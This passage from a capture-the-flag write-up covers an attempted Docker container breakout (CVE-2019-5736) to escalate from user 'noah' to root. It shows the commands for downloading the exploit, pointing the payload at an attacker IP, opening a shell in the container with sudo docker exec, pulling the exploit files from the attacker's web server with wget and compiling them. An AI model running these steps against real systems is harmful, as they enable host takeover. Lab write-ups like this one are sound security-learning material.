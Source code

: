 ```none
---------------------------------------------------------------------------------- ---------------------------------
```

The last two entries looked interesting. A "container breakout" - which I guess means that the exploit can escape the container and run commands on the host system. Since Docker is running as `root` the resultant code execution would (I guess?!) be root. The CVE reference number is: `CVE-2019-5736`.

## Privesc: `noah` to `root`

Even though this method failed, I thought I would document it for reference. There are two exploits in Exploit DB that are quite similar. I choose the first - `46359`. I followed the instructions in the exploit documentation, starting with downloading the exploits ZIP archive.

```none
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/46359.zip
unzip 46359.zip
```

The instructions provided in the readme:

```none
# Usage
Edit HOST inside `payload.c`, compile with `make`. Start `nc` and run `pwn.sh` inside the container.
```

Start by editing the `payload.c` file, specifically the `HOST` value.

```none
#define HOST "10.10.14.5"
```

Started a Python webserver on the attacker's machine. We want to upload all the source code and compile in the Docker container on the target. In the SSH session as the `noah` user, get a shell in the container.

```none
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

In the same shell in the container, fetch all the exploit files. A total of 4 are required.

```none
wget http://10.10.14.127:8000/Makefile
wget http://10.10.14.127:8000/exploit.c
wget http://10.10.14.127:8000/payload.c
wget http://10.10.14.127:8000/pwn.sh
```

Now we have the source code, we need to compile the code using `make`.

```none
# make
gcc -s exploit.c -o exploit -Wall
gcc -s payload.c -o payload -Wall
```
